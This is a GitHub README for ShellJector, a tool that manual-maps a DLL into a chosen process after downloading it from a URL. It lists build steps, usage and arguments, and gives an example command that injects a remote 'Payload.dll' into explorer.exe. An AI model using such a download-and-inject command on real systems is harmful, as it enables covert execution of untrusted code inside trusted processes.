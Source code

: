 # ShellJector (v2.0)
Manual map shellcode (aka byte array) injector wich can download DLL from the internet by URL  
Also take a look at [local](https://github.com/Wolf49406/ShellJectorLocal) version!

[![MSBuild](https://github.com/Wolf49406/ShellJector/actions/workflows/msbuild.yml/badge.svg?branch=main)](https://github.com/Wolf49406/ShellJector/actions/workflows/msbuild.yml)

## How to Build:
- Open `ShellJector.sln -> main.cpp`;
- Set `ProcName` and `DllURL`;
- Build;

## Usage:
- Go to \ShellJector\Build;
  - OR just download the [Latest Release](https://github.com/Wolf49406/ShellJector/releases/latest);
  - Set launch arguments (down below);
- Open Target Process;
- Open `ShellJector.exe`;

## Arguments:
You can set `ProcName` and `DllURL` with `-proc` and `-url` arguments  
(ex: `ShellJector.exe -proc explorer.exe -url "https://example.com/Payload.dll"`)  
Arguments are case **sensitive**!

## Notice:
ShellJector.exe will look for Payload.dll near itself!
